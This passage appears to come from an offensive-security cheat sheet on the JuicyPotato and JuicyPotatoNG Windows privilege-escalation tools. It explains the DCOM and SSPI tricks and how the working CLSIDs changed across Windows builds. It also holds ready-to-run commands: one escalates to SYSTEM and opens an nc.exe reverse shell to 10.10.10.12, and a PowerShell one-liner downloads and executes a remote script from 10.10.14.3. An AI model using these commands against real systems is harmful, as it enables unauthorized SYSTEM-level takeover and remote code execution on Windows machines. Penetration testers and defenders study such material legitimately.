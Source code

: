 ```
- An SSPI hook to capture and impersonate the inbound SYSTEM authentication without requiring RpcImpersonateClient, which also enables CreateProcessAsUser when only SeAssignPrimaryTokenPrivilege is present.
- Tricks to satisfy DCOM activation constraints (e.g., the former INTERACTIVE-group requirement when targeting PrintNotify / ActiveX Installer Service classes).

Important notes (evolving behavior across builds):
- September 2022: Initial technique worked on supported Windows 10/11 and Server targets using the “INTERACTIVE trick”.
- January 2023 update from the authors: Microsoft later blocked the INTERACTIVE trick. A different CLSID ({A9819296-E5B3-4E67-8226-5E72CE9E1FB7}) restores exploitation but only on Windows 11 / Server 2022 according to their post.

Basic usage (more flags in the help):

```
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami"  
# Useful helpers:  
#  -b  Bruteforce all CLSIDs (testing only; spawns many processes)  
#  -s  Scan for a COM port not filtered by Windows Defender Firewall  
#  -i  Interactive console (only with CreateProcessAsUser)
```
```
If you’re targeting Windows 10 1809 / Server 2019 where classic JuicyPotato is patched, prefer the alternatives linked at the top (RoguePotato, PrintSpoofer, EfsPotato/GodPotato, etc.). NG may be situational depending on build and service state.

## Examples

Note: Visit [[https://ohpe.it/juicy-potato/CLSID/|this page]] for a list of CLSIDs to try.

### Get a nc.exe reverse shell

```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
```
### Powershell rev

```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
```